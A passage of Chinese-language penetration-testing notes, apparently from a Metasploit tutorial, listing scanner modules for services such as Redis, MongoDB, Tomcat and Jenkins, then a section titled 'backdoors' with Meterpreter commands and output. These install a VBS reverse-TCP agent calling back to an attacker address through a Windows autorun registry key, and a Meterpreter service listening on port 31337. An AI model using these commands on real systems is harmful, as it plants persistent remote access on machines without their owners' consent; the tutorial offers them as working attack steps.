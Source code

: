 
还一些。。。。你懂的脚本 ：）

    
    
    auxiliary/scanner/rsync/modules_list  （Rsync）
    auxiliary/scanner/misc/redis_server  (Redis)
    auxiliary/scanner/ssl/openssl_heartbleed (心脏滴血)
    auxiliary/scanner/mongodb/mongodb_login (Mongodb)
    auxiliary/scanner/elasticsearch/indices_enum (elasticsearch)
    auxiliary/scanner/http/axis_local_file_include (axis本地文件包含)
    auxiliary/scanner/http/http_put (http Put)
    auxiliary/scanner/http/gitlab_user_enum (获取内网gitlab用户)
    auxiliary/scanner/http/jenkins_enum (获取内网jenkins用户)
    auxiliary/scanner/http/svn_scanner （svn Hunter :)）
    auxiliary/scanner/http/tomcat_mgr_login (Tomcat 爆破)
    auxiliary/scanner/http/zabbix_login （Zabbix :)）
    

# 0x04 AfterWards?

* * *

### 后门:)

    
    
    一个vbs后门 写入了开机启动项 但是容易被发现 还是需要大家发挥自己的智慧:)    
    
    meterpreter > run persistence -X -i 5 -p 23333 -r 10.42.0.1
    [*] Running Persistance Script
    [*] Resource file for cleanup created at /home/croxy/.msf4/logs/persistence/TESTING_20150930.3914/TESTING_20150930.3914.rc
    [*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=10.42.0.1 LPORT=23333
    [*] Persistent agent script is 148453 bytes long
    [+] Persistent Script written to C:\Users\Croxy\AppData\Local\Temp\ulZpjVBN.vbs
    [*] Executing script C:\Users\Croxy\AppData\Local\Temp\ulZpjVBN.vbs
    [+] Agent executed with PID 4140
    [*] Installing into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\okiASNRzcLenulr
    [+] Installed into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\okiASNRzcLenulr
    

Meterpreter服务后门

    
    
    meterpreter > run metsvc
    [*] Creating a meterpreter service on port 31337
    [*] Creating a temporary installation directory C:\Users\Croxy\AppData\Local\Temp\tuIKWqmuO...
    [*]  >> Uploading metsrv.x86.dll...
    [*]  >> Uploading metsvc-server.exe...
    [*]  >> Uploading metsvc.exe...
    [*] Starting the service...
    * Installing service metsvc
    * Starting service
    * Service metsvc successfully installed.
    
